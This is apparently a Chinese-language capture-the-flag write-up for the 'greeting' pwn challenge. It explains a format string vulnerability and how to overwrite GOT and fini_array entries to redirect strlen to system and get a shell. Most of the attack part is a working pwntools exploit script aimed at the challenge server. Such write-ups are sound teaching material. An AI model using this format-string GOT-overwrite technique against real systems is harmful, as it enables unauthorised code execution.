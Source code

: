 ```yaml
---
title: '[pwn] greeting WriteUp'
tags:
  - CTF
  - WriteUp
  - pwn
  - adworld
date: 2019-10-07 15:32:00
categories: CTF

abbrlink: 10071
---
```


这个题来自 [攻防世界](https://adworld.xctf.org.cn/) 的进阶区

ps: 其实是来自于 mma CTF 2016 ，只是我个人是在攻防世界做到的，入门尚浅

## 分析

checksec 一下

![checksec](../pics/20191007003.png)

是 32 位的程序，再 IDA 静态分析

![main](../pics/20191007004.png)

可以看到，存在格式化字符串漏洞，再看看读取字符串的函数 `getnline`

![getnline](../pics/20191007005.png)

找到输入的字符串中第一个 '\n' 并且讲其修改为 '\0' 之后，调用 `strlen`

又发现居然存在 `system` 函数，并且程序没有开启 RELRO 保护，可以修改 GOT 表

于是考虑把 GOT 表中 `strlen` 指向 `system` 函数，然后再想办法传入字符串 `"/bin/sh"`

因为 Linux 的程序的执行流程，是把 `main` 函数作为参数传给 `__libc_start_main` 的，并且在执行完 main 后其实还有其他工作，具体的可以参见下面这张图片

![cool](../pics/20191007006.png)

在执行完 `main` 后还会调用 `finiarray` 和 `destructor` 等函数，所以考虑修改 GOT 表中 `finiarray` 项指回 `main` 函数，这样在第一次输入完字符串之后还会再调用一次 `main` 函数，就可以输入两次，第一次修改 GOT 表，第二次就传入字符串 `"/bin/sh"` 拿到 shell

## exp

```python
from pwn import *

r = remote("111.198.29.45", 43938)

strlen_got = 0x08049a54
fini_got = 0x08049934

# len("Nice to meet you, ") = 18
payload = b"aa" + p32(fini_got+2) + p32(strlen_got+2) # 18 + 10 = 28
payload += p32(strlen_got) + p32(fini_got)            # 28 + 8 = 36
payload += b"%2016c"  # 36 + 2016 = 2052  ==> 0x0804
payload += b"%12$hn"
payload += b"%13$hn"
payload += b"%31884c" # 2052 + 31884 = 33936 ==> 0x8490  ==> 0x08048490 ==> system_plt
payload += b"%14$hn"
payload += b"%349c"   # 33936 + 349 = 34285 ==> 0x85ed  ==> 0x080485ed ==> main_addr
payload += b"%15$hn"

# print(payload)

r.sendlineafter("name... ", payload)

# r.sendlineafter("name... ", b"/bin/sh")
r.interactive()

```

